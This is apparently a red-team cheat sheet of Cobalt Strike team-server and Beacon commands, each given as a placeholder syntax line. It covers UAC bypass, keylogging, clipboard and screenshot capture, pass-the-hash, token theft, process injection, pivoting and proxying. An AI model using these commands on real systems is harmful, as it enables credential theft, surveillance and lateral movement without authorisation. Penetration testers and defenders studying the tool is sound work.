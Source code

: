 # Cobalt Strike

## Start Team Server

```
sudo ./teamserver <ip_server> <shared_pwd> <path_to_profile>
```

## Beacon cmd

### Set beacin sleep time

```
sleep <time_in_sec_ex>
```

### Try bypass UAC and elevate process

```
elevate uac-schtasks <process_name_beacon>
```

### Execute assembly

```
execute-assembly <local_path_to_exe> <argument>
```

### Execute command

```
run <cmd> <arg1>
```

### Upload file

```
upload <path_local_file>
```

### Periodic screenshot

```
screenwatch
```

### List jobs

```
jobs
```

### Kill jobs

```
jobkill <job_id>
```

### record keys

```
keylogger
```

### Copy clipboard

```
clipboard
```

### Path-the-hash and mimikatz to admin

```
pth <Domain>\<user> <hash>
```

### drop impersonation

```
rev2self
```

### Impersonate process and token

```
steal_token <PID>
```

### Make user token with password

```
make_token <Domain\user> <password>
```

### Store token

```
token-store steal <pid>
```

### Show token 

```
token-store show
```

### use stored token

```
token-store use <id>
```

### Inject beacon into process

```
inject <pid> <x64|x86> <listener_name>
```

### Connect to listening pivot

```
connect <target_ip_or_hostname> <port>
```

### Spawn new process and inject beacon

```
spawn <x64|x86> <listener>
```

### Proxy socks4

```
socks <port|1080>
```

### Proxy socks5 with auth

```
socks 1080 socks5 disableNoAuth <user> <pass> enableLogging
```

### Rerverse port forwarding

```
rportfwd <local_port> <127.0.0.1> <port_forward>
```
### Change spawnto

```
spawnto x<64|86> %windir%\sysnative\dllhost.exe
```